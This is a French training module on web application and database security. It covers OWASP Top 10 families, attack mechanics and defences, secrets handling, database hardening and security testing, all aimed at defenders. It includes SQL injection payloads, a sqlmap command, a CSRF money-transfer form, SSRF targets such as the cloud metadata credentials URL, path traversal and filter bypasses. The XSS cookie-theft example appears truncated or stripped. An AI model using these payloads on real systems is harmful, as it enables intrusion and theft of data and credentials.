


# Sécurité applicative et bases de données

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Identifier** les familles de risques de l'OWASP Top 10 et les rattacher à un comportement concret de l'application.
- **Reproduire** en laboratoire une injection SQL, un XSS, un IDOR et un SSRF, puis **expliquer** pourquoi chacun fonctionne.
- **Distinguer** ce que HTTPS protège (le canal) de ce qu'il ne protège pas (la logique métier).
- **Durcir** un compte applicatif de base de données, la stratégie de sauvegarde et le stockage des secrets.
- **Placer** les bons tests de sécurité aux bons endroits du cycle de développement, en mesurant leur coût.

## Mise en situation

> Scénario illustratif : les chiffres sont fictifs, la mécanique est courante.

Une application web de prise de rendez-vous médicaux est en production. Elle a un certificat valide, un WAF (Web Application Firewall) devant elle, un scan de vulnérabilités trimestriel propre et des mots de passe hachés.

Un utilisateur légitime consulte son rendez-vous : `GET /api/appointments/8812`. Il remplace `8812` par `8813`, puis par `8814`. L'API répond 200 à chaque fois, avec le nom, le motif de consultation et le téléphone d'un autre patient. Un script de dix lignes parcourt ensuite les identifiants et récupère 40 000 fiches en une nuit, à un débit raisonnable.

La défense naïve échoue à chaque étage :

- Le WAF ne voit rien d'anormal : ce sont des requêtes bien formées, authentifiées, sans caractère suspect.
- Le scanner ne se plaint pas non plus. Il ne dispose que d'un compte, donc il ne peut pas savoir que la fiche 8813 n'appartient pas à ce compte.
- HTTPS fonctionne parfaitement : le canal est chiffré de bout en bout, y compris pour le script de l'attaquant.

La faille n'est ni dans le réseau ni dans le chiffrement. Le serveur a oublié de se demander : « cet utilisateur a-t-il le droit de lire cette ressource ? » C'est ce type de question, de la requête HTTP jusqu'à la base de données, que ce module apprend à poser.

## Surface d'attaque d'une application web

Une application web est un empilement de zones de confiance. Chaque flèche du schéma est un endroit où une donnée change de mains, donc un endroit où quelqu'un peut la falsifier.



| Vecteur | Exposition | Impact potentiel |
|---|---|---|
| Paramètres, corps JSON, en-têtes, cookies | Tout ce que le client contrôle, donc tout | Injection SQL, XSS, manipulation de logique |
| Identifiants d'objets dans les URL et les corps | Endpoints REST exposant `/resource/<ID>` | Lecture ou modification de données d'autrui (IDOR) |
| Cookie de session ou jeton d'API | Navigateur, logs, proxys intermédiaires | Usurpation de compte |
| Fonctions « importer depuis une URL », webhooks, générateurs de PDF | Requêtes sortantes émises par le serveur | Accès au réseau interne (SSRF) |
| Dépendances (npm, pip, Maven) | Des centaines de paquets que personne n'a relus | Exécution de code à distance, comme Log4Shell (CVE-2021-44228) |
| Secrets (clés d'API, mots de passe de base) | Dépôt Git, images Docker, variables d'environnement, logs CI | Accès direct aux données, sans passer par l'application |
| Port de la base de données | 5432, 3306, 6379, 27017, 9200 mal filtrés | Lecture ou chiffrement de toutes les données |

> 🧠 **Concept clé : la session**
>
> HTTP est sans état, et l'application doit donc rattacher chaque requête à un utilisateur. Deux modèles dominent :
>
> - **Session côté serveur** : un identifiant opaque dans un cookie, l'état étant stocké côté serveur.
> - **Jeton signé** comme un JWT (JSON Web Token), où l'état voyage dans le jeton et le serveur ne vérifie que la signature.
{: .callout .callout-important}

Le vol du cookie ou du jeton équivaut au vol du compte. Les attributs du cookie sont donc la première ligne de défense :

```http
Set-Cookie: sid=<RANDOM_128_BITS>; Path=/; Secure; HttpOnly; SameSite=Lax
```

- `Secure` : le cookie ne part jamais en HTTP clair.
- `HttpOnly` : un script injecté ne peut pas lire le cookie.
- `SameSite` : le navigateur n'envoie pas le cookie sur la plupart des requêtes déclenchées depuis un autre site.

> 🔒 **Sécurité**
>
> Côté API, le modèle `Authorization: Bearer <TOKEN>` n'est pas envoyé automatiquement par le navigateur, ce qui change l'analyse CSRF (voir plus bas). En contrepartie, le jeton stocké en `localStorage` est lisible par n'importe quel XSS.
{: .callout .callout-securite}

### Qui attaque, et quoi

Pour une application métier typique, les scénarios réellement probables sont peu nombreux :

- **Utilisateur authentifié malveillant ou curieux** : le plus fréquent. Il possède un compte légitime, un navigateur et Burp Suite, et cherche les IDOR et les failles de logique.
- **Attaquant opportuniste sur Internet** : il scanne en masse (Shodan, nuclei, sqlmap) à la recherche de CVE connues, de bases exposées et de fichiers `.env` accessibles. Il ne vous cible pas, il vous trouve.
- **Attaquant ayant volé un secret** : un token trouvé dans un dépôt public ou une image Docker. Il contourne toute l'application.
- **Initié ou prestataire** : il dispose de droits trop larges sur la base.

Un modèle STRIDE complet est utile pour une conception, mais pour ce module retenez la règle : *chaque élément contrôlé par le client doit être traité comme hostile, et chaque identifiant secret doit être traité comme déjà fuité.*

## OWASP Top 10 : lire les familles, pas la liste

L'OWASP (Open Worldwide Application Security Project) publie un classement des risques applicatifs les plus répandus. Il ne s'agit pas d'une liste de vulnérabilités à mémoriser, mais de familles de causes racines. La version 2021 est la plus largement référencée ; une édition plus récente peut exister, vérifiez la version en vigueur avant de citer un numéro de catégorie dans un livrable.

| Famille (édition 2021) | Ce que fait l'attaquant | Exemple concret |
|---|---|---|
| A01 Broken Access Control | Demande une ressource qui n'est pas la sienne | `/api/invoices/1043` avec le jeton d'un autre client |
| A02 Cryptographic Failures | Exploite l'absence ou la faiblesse de chiffrement | Mots de passe en MD5 non salé dans un dump |
| A03 Injection | Fait interpréter des données comme du code | `' OR 1=1--` dans un champ de login |
| A04 Insecure Design | Détourne un flux qui n'a jamais été pensé contre l'abus | Code promo réutilisable à l'infini |
| A05 Security Misconfiguration | Profite des valeurs par défaut | `DEBUG=True`, console d'administration ouverte |
| A06 Vulnerable and Outdated Components | Cible une CVE publique | Log4Shell, Apache Struts CVE-2017-5638 |
| A07 Identification and Authentication Failures | Rejoue, devine ou contourne l'authentification | Credential stuffing sans limitation de débit |
| A08 Software and Data Integrity Failures | Compromet la chaîne de build ou les mises à jour | Paquet piégé dans une dépendance |
| A09 Security Logging and Monitoring Failures | Opère sans être vu | Aucune alerte sur 10 000 requêtes 403 |
| A10 Server-Side Request Forgery | Fait émettre des requêtes par le serveur | Import d'image vers `http://169.254.169.254/` |

La famille A01 (contrôle d'accès) est en tête depuis l'édition 2021 : l'erreur la plus répandue n'est pas une subtilité de cryptographie, mais l'absence d'un `if` côté serveur.

> 💡 **À retenir**
>
> Pour un audit, transformez cette table en questions : « Quelles données un utilisateur A peut-il atteindre qui appartiennent à B ? » « Quelle entrée utilisateur arrive dans une requête, un shell, un gabarit, une URL ? » C'est plus actionnable que « vérifier l'OWASP ».
{: .callout .callout-important}

## Mécanismes d'attaque

### Injection SQL

> 🔴 **Vecteur d'attaque**
>
> Une requête construite par concaténation mélange code et données :
>
> ```python
> # Vulnérable
> query = "SELECT id FROM users WHERE email = '" + email + "' AND pwd_hash = '" + h + "'"
> cursor.execute(query)
> ```
{: .callout .callout-danger}

Si `email` vaut `admin@corp.com' --`, la requête devient :

```sql
SELECT id FROM users WHERE email = 'admin@corp.com' --' AND pwd_hash = '...'
```

Le `--` commente la vérification du mot de passe. Quelques payloads classiques :

| Technique | Payload | Quand l'utiliser |
|---|---|---|
| Contournement | `' OR '1'='1' --` | Formulaire de login |
| UNION | `' UNION SELECT username, password_hash FROM users --` | Le résultat est affiché à l'écran |
| Aveugle par le temps | `'; SELECT pg_sleep(5) --` (PostgreSQL), `' AND SLEEP(5)-- -` (MySQL) | Rien n'est affiché, mais le temps de réponse trahit l'exécution |

`sqlmap` automatise l'ensemble : détection, identification du SGBD, extraction. En audit autorisé :

```bash
sqlmap -u "https://<HOST>/items?id=1" --cookie="sid=<SESSION>" --batch --level=2
```

> 🔒 **Contrôle**
>
> Les requêtes paramétrées séparent le texte de la requête de ses valeurs, et le moteur ne ré-interprète jamais les valeurs comme du SQL :
>
> ```python
> cursor.execute(
>     "SELECT id FROM users WHERE email = %s AND pwd_hash = %s",
>     (email, h),
> )
> ```
{: .callout .callout-securite}

Deux limites de terrain :

- Les noms de colonnes ou de tables et les mots-clés (`ORDER BY <COL>`) ne se paramètrent pas. Utilisez une liste blanche de valeurs autorisées côté serveur.
- Un ORM n'est pas une protection automatique : `.raw()`, `.extra()` ou `text()` avec f-string recréent le problème.

Le compte applicatif à privilèges minimaux (voir section base de données) limite l'impact quand une injection passe malgré tout.

### XSS (Cross-Site Scripting)

> 🔴 **Vecteur d'attaque**
>
> L'application affiche dans une page une donnée contrôlée par l'attaquant sans l'encoder pour son contexte. Dans un champ de commentaire :
>
> ```html
> /c?d='+document.cookie)">
> ```
{: .callout .callout-danger}

Si ce commentaire est stocké (XSS stocké), il s'exécute dans le navigateur de chaque visiteur, y compris celui d'un administrateur. Ce script agit avec les droits de la victime : il lit la page, soumet des formulaires, appelle l'API.

> ⚠️ **Attention**
>
> `HttpOnly` empêche de lire le cookie, mais n'empêche pas le script d'agir *depuis* la session. Un XSS reste une prise de contrôle du compte, sans voler le cookie.
{: .callout .callout-attention}

> 🔒 **Contrôles.**
>
> - Encodage contextuel en sortie : HTML, attribut, JavaScript et URL n'exigent pas le même échappement. Les frameworks modernes (React, Vue, Jinja2 en autoescape) le font par défaut. Les risques reviennent avec `dangerouslySetInnerHTML`, `v-html`, `|safe` ou `innerHTML`.
> - Une CSP (Content Security Policy) en défense en profondeur :
>
> ```http
> Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-<RANDOM>'; object-src 'none'; base-uri 'self'
> ```
{: .callout .callout-securite}

Le coût est réel : les scripts inline existants cassent, il faut les externaliser ou leur ajouter un nonce. Déployez d'abord en `Content-Security-Policy-Report-Only` pour observer les violations avant de bloquer.

### Contrôle d'accès défaillant

C'est la famille qu'aucun outil automatique ne détecte bien, car le scanner ne sait pas ce que « autorisé » veut dire pour votre métier.

> 🔴 **Trois variantes à tester à la main**
>
> - **IDOR (accès à un objet d'un autre utilisateur)** : changer `8812` en `8813`. Remplacer l'identifiant numérique par un UUID ne règle rien si l'autorisation n'est pas vérifiée : c'est seulement plus dur à deviner.
> - **Contrôle au niveau de la fonction** : un utilisateur standard appelle `POST /api/admin/users` et obtient un 200 parce que seul le menu était masqué dans l'interface.
> - **Mass assignment** : le client ajoute des champs que le formulaire ne propose pas, par exemple `PATCH /api/me` avec `{"name":"Bob","role":"admin"}`, et le framework copie tous les champs vers le modèle.
{: .callout .callout-danger}

Le test minimal avec deux comptes :

```bash
curl -s -o /dev/null -w "%{http_code}\n" \
  -H "Authorization: Bearer <TOKEN_USER_A>" \
  https://<HOST>/api/invoices/<ID_OF_USER_B>
```

Le résultat attendu est 403 ou 404. Un 200 est un constat critique. L'extension Burp **Autorize** automatise ce rejeu avec le jeton d'un autre rôle sur chaque requête enregistrée.

> 🔒 **Contrôles.**
>
> - Refus par défaut : un endpoint sans règle explicite est fermé.
> - Vérification d'appartenance côté serveur à chaque requête, centralisée dans une politique ou un middleware plutôt que recopiée dans chaque contrôleur, sinon un seul oubli suffit.
> - Liste blanche des champs modifiables (DTO, schéma), jamais une copie aveugle du corps JSON vers le modèle.
{: .callout .callout-securite}

### CSRF et SSRF

**CSRF (Cross-Site Request Forgery).** L'attaquant n'a pas besoin de votre cookie : il fait envoyer à votre navigateur une requête vers un site où vous êtes connecté, et le navigateur joint le cookie tout seul.

> 🎫 **Analogie : le badge qui s'active tout seul**
>
> Votre cookie de session fonctionne comme un badge d'accès qui ouvre la porte dès que vous passez devant. Si quelqu'un vous pousse vers cette porte, il fait entrer une demande avec vos droits, sans jamais toucher au badge. Limite de l'image : l'attaquant déclenche une action, mais il ne voit pas la réponse du site.
{: .callout .callout-analogie}

Une page piégée suffit :

```html
<form action="https://bank.example/transfer" method="POST" id="f">
  <input name="to" value="<ATTACKER_ACCOUNT>"><input name="amount" value="5000">
</form>
<script>document.getElementById('f').submit()</script>
```

Défenses, par ordre de coût croissant :

1. `SameSite=Lax` (ou `Strict`) sur le cookie de session. Chrome et les navigateurs basés sur Chromium appliquent `Lax` par défaut aux cookies sans attribut `SameSite`, mais tous les navigateurs ne le font pas : s'y fier sans le déclarer explicitement est fragile.
2. Un jeton anti-CSRF aléatoire, lié à la session, vérifié sur toute requête qui modifie un état.
3. Pas de modification d'état avec `GET`.

Une API qui n'accepte que `Authorization: Bearer` n'est pas exposée au CSRF classique, puisque le navigateur n'envoie pas cet en-tête de lui-même.

> 📖 **Définition**
>
> Dans un SSRF (Server-Side Request Forgery), l'attaquant choisit la cible d'une requête que le serveur émet lui-même. Il contourne ainsi les pare-feux qui font confiance au serveur.
{: .callout .callout-definition}

Toute fonction qui fait récupérer une URL par le serveur est un candidat : import d'image par lien, aperçu de lien, webhook, conversion HTML vers PDF. L'attaquant fournit une adresse interne :

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://localhost:6379/
http://10.0.0.5:9200/_cat/indices
```

Sur un hôte cloud, la première cible est le service de métadonnées, qui peut livrer des identifiants temporaires. Ce mécanisme a été au cœur de l'intrusion Capital One en 2019, où une requête SSRF via un pare-feu applicatif mal configuré avait permis de récupérer des identifiants cloud. Les détails de durcissement cloud relèvent du module suivant.

> 🔒 **Contrôles réalistes.**
>
> - Liste blanche de domaines de destination quand le besoin le permet.
> - Sinon, résoudre le nom, vérifier que l'IP n'est ni privée, ni loopback, ni link-local, puis se connecter à *cette* IP (sans re-résoudre, pour éviter le DNS rebinding).
> - Désactiver le suivi des redirections ou les revalider.
> - Filtrage des flux sortants au niveau réseau : le serveur applicatif n'a pas à joindre le réseau interne.
{: .callout .callout-securite}

Une liste noire de `127.0.0.1` et `localhost` est contournée par `0x7f000001`, `127.1`, `[::1]` ou un domaine pointant vers 127.0.0.1.

### Erreurs de validation

La validation transforme « tout ce que le client peut envoyer » en « ce que le métier accepte ». Les cas récurrents :

- `quantity=-5` : un total négatif ou un remboursement non dû.
- `price` fourni par le client dans le corps de la commande.
- `file=../../etc/passwd` : traversée de chemin.
- `{"id": [1,2]}` à la place de `{"id": 1}` : confusion de types.

> 💡 **À retenir**
>
> Validez côté serveur, par liste blanche, avec un schéma explicite (JSON Schema, pydantic, zod). La validation côté client est de l'ergonomie, pas de la sécurité.
{: .callout .callout-important}

## ⚠️ HTTPS ne protège pas contre les failles de logique métier

Que garantit HTTPS, exactement ? Trois propriétés entre le navigateur et le serveur : confidentialité, intégrité du transport et authenticité du serveur. Il ne dit rien sur ce que l'utilisateur authentifié envoie *dans* le tunnel.

> 🚚 **Analogie : le fourgon blindé**
>
> HTTPS est un fourgon blindé : personne ne peut lire ni modifier le colis en route, et vous savez à quelle adresse il est livré. Mais le fourgon transporte fidèlement ce que l'expéditeur y a mis, y compris une commande à 0,01 €.
{: .callout .callout-analogie}

Burp Suite se place comme proxy local avec son propre certificat que l'auditeur installe volontairement. Il voit chaque requête en clair, la modifie et la rejoue. Le serveur reçoit une requête TLS parfaitement valide, qu'il ne peut pas distinguer d'une requête du vrai navigateur.

Exemples de failles totalement invisibles pour HTTPS, le WAF ou le scanner :

| Faille de logique | Requête de l'attaquant | Pourquoi ça passe |
|---|---|---|
| Prix côté client | `POST /checkout {"item":42,"price":0.01}` | Le serveur fait confiance au champ |
| Étape sautée | `POST /order/confirm` sans passer par `/payment` | Le serveur n'impose pas l'ordre du workflow |
| Rejeu de bon de réduction | Même code envoyé 50 fois | Aucun compteur d'utilisation |
| Course critique (race condition) | 20 retraits simultanés avec 100 € de solde | La vérification du solde et le débit ne sont pas atomiques |

> 🔒 **Contrôles.**
>
> - Le serveur recalcule tout ce qui compte (prix, remise, droits) à partir de ses propres données.
> - Une machine à états explicite impose l'ordre du workflow.
> - Une clé d'idempotence sur les opérations sensibles.
> - Une transaction avec verrou (`SELECT ... FOR UPDATE`) ou une contrainte en base (`CHECK (balance >= 0)`) pour les accès concurrents.
{: .callout .callout-securite}

Le coût : ces règles ne sont jamais fournies par un framework, il faut les concevoir. La méthode qui fonctionne est de lister des « cas d'abus » pendant la conception : pour chaque fonctionnalité, demander ce qu'un client malveillant tenterait d'en faire.

## Gestion des secrets

Les robots scannent les dépôts publics en continu. Un secret exposé peut être exploité en quelques minutes, bien avant la découverte par l'équipe.

> 🔴 **Vecteur d'attaque**
>
> Les secrets fuient par des chemins banals :
>
> - Un `.env` ou un `config.py` commité « une seule fois ». Le secret reste dans l'historique Git même après suppression.
> - Une couche d'image Docker construite avec `COPY .env`, récupérable par quiconque tire l'image.
> - Des logs CI qui impriment les variables.
> - Un bundle JavaScript front qui embarque une clé d'API privée.
{: .callout .callout-danger}

> 🔒 **Contrôles.**
>
> - **Stockage** : un gestionnaire de secrets (HashiCorp Vault, AWS Secrets Manager, Azure Key Vault, Kubernetes Secrets avec chiffrement) plutôt que des fichiers. Les variables d'environnement sont acceptables comme transport vers le processus, mais elles apparaissent dans `docker inspect`, `/proc/<PID>/environ` et les dumps d'erreur.
> - **Détection** : `gitleaks` en pre-commit et en CI.
> - **Rotation** : ordre strict en cas de fuite : révoquer et régénérer d'abord, nettoyer l'historique ensuite. Réécrire l'historique avec `git filter-repo` n'annule pas la compromission, car le secret a pu être copié.
> - **Durée de vie courte** : des identifiants temporaires (tokens de quelques heures, identifiants de base dynamiques Vault) réduisent la fenêtre d'exploitation.
{: .callout .callout-securite}

Le prix à payer est une dépendance de plus : si le gestionnaire de secrets est indisponible au démarrage, l'application ne démarre pas. Prévoir un cache local et un test de panne.

```bash
gitleaks detect --source <REPO_PATH> --verbose
```

La syntaxe exacte dépend de la version de l'outil (les versions récentes proposent `gitleaks git`) ; vérifiez `gitleaks --help`.

## Sécuriser la base de données

La base est la cible finale de la plupart des attaques applicatives. Trois leviers : le compte utilisé par l'application, l'exposition réseau et les sauvegardes.

### Permissions du compte applicatif

Une application qui se connecte avec `root` ou `postgres` transforme chaque injection SQL en prise de contrôle du serveur de base. Séparez au moins deux comptes : un pour les migrations (droits DDL, utilisé seulement en déploiement) et un pour l'exécution (droits DML limités).

Exemple PostgreSQL :

```sql
CREATE ROLE app_web LOGIN PASSWORD '<PASSWORD_FROM_VAULT>';
REVOKE ALL ON SCHEMA public FROM PUBLIC;
GRANT USAGE ON SCHEMA public TO app_web;
GRANT SELECT, INSERT, UPDATE ON orders, order_items TO app_web;
GRANT SELECT ON products TO app_web;
-- pas de DELETE, pas de DROP, pas d'accès à la table users_admin
```

Avec ce compte, une injection `'; DROP TABLE orders --` échoue, et un `UNION SELECT` sur `users_admin` est refusé. Le coût est une phase de recensement des tables réellement utilisées, qui doit être refaite à chaque nouvelle fonctionnalité.

### Exposition et chiffrement

- La base écoute sur une interface privée, jamais `0.0.0.0` ouvert à Internet.
- Un groupe de sécurité ou pare-feu n'autorise que les serveurs applicatifs.
- Authentification forte entre l'application et la base (`scram-sha-256` pour PostgreSQL) et TLS sur la connexion.
- Les mots de passe des utilisateurs de l'application sont hachés avec un algorithme dédié (argon2id, bcrypt), jamais chiffrés de façon réversible.

Vérification externe rapide :

```bash
nmap -Pn -p 3306,5432,6379,9200,27017 <HOST>
```

Redis, Elasticsearch et MongoDB sans authentification exposés sur Internet restent une source régulière de fuites de masse.

### Sauvegardes

Les sauvegardes sont souvent moins bien protégées que la base elle-même, alors qu'elles contiennent exactement les mêmes données.

- Chiffrer l'archive avant stockage : `pg_dump <DB> | age -r <PUBLIC_KEY> > backup.sql.age`.
- Conserver une copie hors ligne ou immuable. Un rançongiciel qui a obtenu les identifiants de la production supprime aussi les sauvegardes accessibles avec les mêmes droits.
- Tester la restauration à intervalles réguliers. Une sauvegarde jamais restaurée est une hypothèse, pas une garantie.
- Séparer les droits : le compte qui écrit les sauvegardes ne peut ni les lire ni les supprimer.

## Tests de sécurité dans le cycle de développement

Chaque outil a un coût (temps, faux positifs, maintenance). La règle de décision est de placer chaque contrôle le plus tôt possible, là où il coûte le moins cher à corriger, et de ne bloquer le build que sur les constats de gravité élevée.



| Étape | Outil | Ce qu'il détecte | Coût réel |
|---|---|---|---|
| Commit | gitleaks | Secrets dans le code | Quelques secondes ; faux positifs sur les fixtures de test |
| Pull request | SAST (Static Application Security Testing) avec Semgrep | Patterns dangereux : concaténation SQL, `eval`, `innerHTML` | Règles à adapter, faux positifs à trier |
| Build | SCA (Software Composition Analysis) avec Trivy ou `npm audit` | Dépendances avec CVE connues | Bruit si on bloque sur toutes les sévérités |
| Staging | DAST (Dynamic Application Security Testing) avec OWASP ZAP | Headers manquants, XSS réfléchi, injections basiques | Lent, couverture faible sur les API authentifiées |
| Régulier | Test manuel (Burp, Autorize) | IDOR, logique métier, enchaînements | Temps d'un auditeur ; seule méthode fiable pour A01 et A04 |

Commandes de base :

```bash
semgrep scan --config p/owasp-top-ten --error <SRC_PATH>
trivy fs --scanners vuln,secret --severity HIGH,CRITICAL --exit-code 1 .
docker run --rm -t ghcr.io/zaproxy/zaproxy:stable zap-baseline.py -t https://<STAGING_HOST>
```

Les options et les images évoluent entre versions : consultez l'aide de l'outil installé.

> 💡 **À retenir**
>
> Écrivez aussi des **tests unitaires d'autorisation** : « l'utilisateur A reçoit 403 sur la facture de B ». C'est le seul test automatisé qui couvre réellement le contrôle d'accès, et il protège contre les régressions à chaque modification de code.
{: .callout .callout-important}

Après ce module, vous devez savoir tester au minimum : un IDOR avec deux comptes, les attributs d'un cookie de session, un champ de saisie avec un caractère `'`, la présence de secrets dans un dépôt, et l'exposition réseau des ports de base de données.

## Cas en entreprise : une chaîne d'attaque multi-couches

> Scénario illustratif, assemblé à partir de mécanismes réellement documentés. Les chiffres sont fictifs.

Une société de billetterie en ligne mandate un audit. L'auditeur dispose d'un compte client ordinaire et procède ainsi :

1. **IDOR** sur `GET /api/orders/<ID>` : il lit les commandes d'autres clients, ce qui est déjà une fuite de données personnelles.
2. **Clé d'API en clair** dans le bundle JavaScript du front, avec des droits d'écriture sur le service de stockage de fichiers.
3. **Fonction d'import de logo par URL** sans validation : un SSRF lui permet d'interroger un service d'administration interne sur le port 8080.
4. **Compte applicatif de base de données** propriétaire du schéma. Un test avec `sqlmap` sur un paramètre de tri (`ORDER BY`) confirme une injection, et le pilote accepte les requêtes empilées (stacked queries) : avec ce compte, elle permettrait de supprimer des tables.

Aucune de ces failles n'est sophistiquée, et l'impact vient de leur combinaison. Corriger la seule injection SQL aurait laissé les trois autres chemins ouverts.

Deux précédents publics illustrent le même schéma : l'intrusion Equifax en 2017 a exploité la CVE-2017-5638 d'Apache Struts, une faille pour laquelle un correctif existait déjà, et l'intrusion Capital One en 2019 est passée par un SSRF.

Leçons tirées du scénario :

- Les constats doivent être rapportés par chaîne d'exploitation, pas comme une liste plate de CVSS.
- La correction la plus rentable était la moins glamour : appliquer des droits minimaux à la base et filtrer les flux sortants du serveur.
- Aucun scanner automatisé n'aurait détecté l'IDOR. Il a fallu un test manuel avec deux comptes.

## Erreurs fréquentes

| Configuration dangereuse | Conséquence | Correction | Détection |
|---|---|---|---|
| `Access-Control-Allow-Origin` qui reflète l'en-tête `Origin` avec `Allow-Credentials: true` | Un site tiers lit les réponses authentifiées de votre API | Liste blanche d'origines explicite | Burp : envoyer `Origin: https://evil.example` et inspecter la réponse |
| `DEBUG=True` ou console Werkzeug/Flask accessible en production | Exécution de code à distance ou stack traces avec secrets | Variable de configuration par environnement ; page d'erreur générique | `curl` sur une URL provoquant une erreur ; ZAP |
| Validation du JWT qui accepte `alg: none` ou une clé HMAC faible | Forge d'un jeton valide pour n'importe quel utilisateur | Imposer l'algorithme côté serveur, clé d'au moins 256 bits issue d'un gestionnaire de secrets | `jwt_tool`, extension Burp JWT Editor |
| Requête ORM avec f-string dans `.raw()` | Injection SQL malgré l'ORM | Paramètres liés (`%s`, `:name`) | Semgrep, règles `sql-injection` |
| Base de données écoutant sur `0.0.0.0` avec règle de pare-feu permissive | Exposition à Internet, accès par force brute ou sans mot de passe | Écoute sur interface privée, règles par adresse source | `nmap -p 5432,3306,6379,27017` |
| Sauvegardes dans un bucket ou un partage accessible en lecture publique | Fuite complète des données, hors de toute protection de la base | Chiffrement des archives, stockage privé, droits distincts d'écriture et de lecture | Revue des ACL ; scanners de buckets exposés |
| Secrets passés en `ARG` ou `COPY` dans un Dockerfile | Secret lisible dans les couches de l'image | Secrets montés au runtime ; `docker build --secret` | `trivy image --scanners secret <IMAGE>` |

## Résumé

Les risques applicatifs se regroupent en familles (OWASP Top 10) dont la plupart viennent d'une même erreur : faire confiance à ce que le client envoie.

- L'injection SQL, le XSS, le CSRF et le SSRF exploitent la confusion entre données et instructions ou entre origines.
- Le contrôle d'accès défaillant (IDOR, mass assignment) et les failles de logique métier ne sont stoppés ni par HTTPS ni par un WAF. Ils demandent des tests manuels avec plusieurs comptes.

La défense repose sur des requêtes paramétrées, un encodage en sortie, une politique d'autorisation centralisée avec refus par défaut, des secrets hors du code et une base de données à droits minimaux avec sauvegardes restaurables.

Il reste à surveiller les dépendances vulnérables, les nouvelles fonctionnalités qui recréent des flux non contrôlés (import d'URL, webhooks) et la dérive des droits en base.

<!-- snippet
id: appsec_owasp_families_concept
type: concept
tech: securite-applicative
level: beginner
importance: high
format: knowledge
tags: owasp,risques,controle-acces,injection
title: OWASP Top 10 : des familles de causes, pas une liste de bugs
content: L'OWASP Top 10 regroupe les risques par cause racine : contrôle d'accès (A01), injection (A03), conception (A04), configuration (A05), composants vulnérables (A06). Dans une mission, chaque famille devient une question de test, par exemple « que peut lire l'utilisateur A qui appartient à B ? ». Vérifier la version de l'édition avant de citer un numéro.
description: Transformer chaque famille du Top 10 en question testable donne un plan d'audit, là où mémoriser la liste ne donne qu'un vocabulaire.
-->

<!-- snippet
id: appsec_sqli_parametrized_concept
type: concept
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: injection-sql,requetes-parametrees,orm
title: Injection SQL : la concaténation mélange code et données
content: Avec "WHERE email='" + email + "'", un email valant `x' OR '1'='1' --` change la structure de la requête et commente la vérification du mot de passe. Une requête paramétrée (cursor.execute(sql, (email,))) envoie le texte SQL et les valeurs séparément, donc la valeur n'est jamais interprétée comme du code. Les noms de colonnes ne se paramètrent pas : utiliser une liste blanche.
description: Le paramétrage protège parce que le moteur SQL reçoit structure et valeurs par deux canaux, mais un ORM avec .raw() et f-string recrée la faille.
-->

<!-- snippet
id: appsec_sqlmap_test_command
type: command
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: sqlmap,injection-sql,audit
title: Tester un paramètre avec sqlmap (périmètre autorisé)
context: À utiliser uniquement sur un environnement dont vous avez l'autorisation écrite de test
command: sqlmap -u "https://<HOST>/items?id=1" --cookie="sid=<SESSION>" --batch --level=2
example: sqlmap -u "https://staging.shop.example/items?id=1" --cookie="sid=a1b2c3d4" --batch --level=2
description: Détecte le type d'injection et le SGBD. Le cookie de session permet de tester les pages authentifiées ; --level augmente le nombre de points testés.
-->

<!-- snippet
id: appsec_idor_two_accounts_command
type: command
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: idor,controle-acces,curl,api
title: Tester un IDOR avec deux comptes via curl
command: curl -s -o /dev/null -w "%{http_code}\n" -H "Authorization: Bearer <TOKEN_USER_A>" https://<HOST>/api/invoices/<ID_OF_USER_B>
example: curl -s -o /dev/null -w "%{http_code}\n" -H "Authorization: Bearer eyJhbGciOi..." https://app.example/api/invoices/1043
description: Un code 200 avec le jeton de A sur la ressource de B prouve un IDOR ; le résultat sain est 403 ou 404. Un scanner automatique ne trouve pas cette faille.
-->

<!-- snippet
id: appsec_mass_assignment_error
type: error
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: mass-assignment,api,controle-acces
title: Mass assignment : un champ role modifiable par le client
content: Symptôme : après PATCH /api/me avec {"name":"Bob","role":"admin"}, le compte devient administrateur. Cause : le framework copie tous les champs du JSON vers le modèle sans liste de champs autorisés. Correction : utiliser un schéma ou DTO qui n'accepte que name et email, et refuser les champs inconnus.
description: Se teste en ajoutant des champs sensibles (role, is_admin, owner_id) au corps d'une requête de modification de profil.
-->

<!-- snippet
id: appsec_xss_csp_concept
type: concept
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: xss,csp,encodage,navigateur
title: XSS : l'encodage en sortie d'abord, la CSP en filet
content: Un commentaire stocké contenant  s'exécute chez chaque lecteur si la page ne l'encode pas pour le contexte HTML. L'encodage contextuel (autoescape du framework) bloque l'attaque. Une CSP comme script-src 'self' 'nonce-<RANDOM>' limite les dégâts si l'encodage est oublié. Déployer d'abord en Report-Only pour repérer les scripts inline qui casseraient.
description: La CSP est une défense en profondeur avec un vrai coût de migration ; ne la déployer en blocage qu'après une phase d'observation des violations.
-->

<!-- snippet
id: appsec_cookie_flags_warning
type: warning
tech: securite-applicative
level: beginner
importance: high
format: knowledge
tags: session,cookie,httponly,samesite
title: Cookie de session sans Secure, HttpOnly ni SameSite
